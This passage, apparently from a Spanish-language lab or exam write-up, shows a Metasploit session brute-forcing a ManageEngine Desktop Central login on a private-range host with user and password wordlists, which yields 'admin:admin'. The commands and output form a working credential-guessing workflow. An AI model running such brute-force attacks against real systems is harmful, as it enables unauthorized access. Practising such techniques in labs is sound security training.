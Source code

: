 ```

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             8020             yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host

msf6 auxiliary(scanner/http/manageengine_desktop_central_login) > set rhosts 192.168.109.174
rhosts => 192.168.109.174
msf6 auxiliary(scanner/http/manageengine_desktop_central_login) > set USER_FILE /root/Desktop/examen
USER_FILE => /root/Desktop/examen
msf6 auxiliary(scanner/http/manageengine_desktop_central_login) > set USER_FILE /root/Desktop/examen/examen_users.txt
USER_FILE => /root/Desktop/examen/examen_users.txt
msf6 auxiliary(scanner/http/manageengine_desktop_central_login) > set PASS_FILE /root/Desktop/examen/examen_passwords.txt
PASS_FILE => /root/Desktop/examen/examen_passwords.txt
msf6 auxiliary(scanner/http/manageengine_desktop_central_login) > set verbose false
verbose => false
msf6 auxiliary(scanner/http/manageengine_desktop_central_login) > run

[+] 192.168.109.174:8020 - Success: 'admin:admin'

```
![image](https://user-images.githubusercontent.com/50930193/173709413-e2186061-d211-415f-8fec-cbf09b028a8c.png)

Intentamos ingresando con esas credenciales

![image](https://user-images.githubusercontent.com/50930193/175658061-529e6d47-e90c-4b71-bc28-22e2e4669af2.png)
